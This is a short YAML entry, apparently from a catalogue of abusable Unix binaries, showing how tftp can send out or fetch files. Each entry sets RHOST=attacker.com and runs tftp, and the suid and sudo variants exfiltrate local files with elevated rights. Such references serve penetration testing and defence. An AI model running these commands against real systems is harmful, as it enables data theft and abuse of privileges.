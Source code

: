 ```yaml
---
functions:
  file-upload:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a TFTP server.
      code: |
        RHOST=attacker.com
        tftp $RHOST
        get file_to_get
  suid:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        ./tftp $RHOST
        put file_to_send
  sudo:
    - description: Send local file to a TFTP server.
      code: |
        RHOST=attacker.com
        sudo -E tftp $RHOST
        put file_to_send
---
```

